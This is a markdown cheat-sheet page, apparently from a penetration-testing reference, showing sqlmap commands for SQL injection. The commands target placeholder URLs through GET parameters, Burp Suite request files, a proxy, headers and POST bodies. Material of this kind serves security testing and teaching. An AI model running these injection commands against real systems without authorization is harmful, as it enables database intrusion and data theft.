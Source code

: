 ```yaml
---
title: SQL Injection with Sqlmap
description: SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. This page provides how to inject SQL using sqlmap.
tags:
    - Database
    - Reverse Shell
    - SQL Injection
    - Web
refs:
date: 2023-08-18
draft: false
---
```


## Basic Usage

```sh
# GET request
sqlmap -u "http://<target-ip>/?search=test"
```

<br />

### Using Burp Suite Request File

We can specify a request file which is downloaded from **Burp Suite**.  
In Burp Suite, right-click on the HTTP request header screen, then click **Save Item** to download the request file. We can use it with SQLmap.
Add the **"-r"** flag as below.

```sh
sqlmap -r request.txt
```

In addition, we can see payloads to be tested in Burp Suite by setting the Burp proxy IP address to the **`--proxy`** flag.

```sh
# --proxy: Set proxy URL e.g. we can inspect requests in BurpSuite by port 8080 (default port for BurpSuite)
sqlmap -u "https://example.com/?q=test" --proxy http://127.0.0.1:8080
```

<br /><br />

## Cheat Sheet

### Basic

```sh
sqlmap -u "https://example.com/?q=test"

# Specific parameter
sqlmap -u "https://example.com/?q=test" -p q

# Header param injection
sqlmap -u "https://example.com/" --headers "X-Forwarded-For: 1*"

# POST body
sqlmap -u "https://example.com/" --data="username=test&password=test"
```
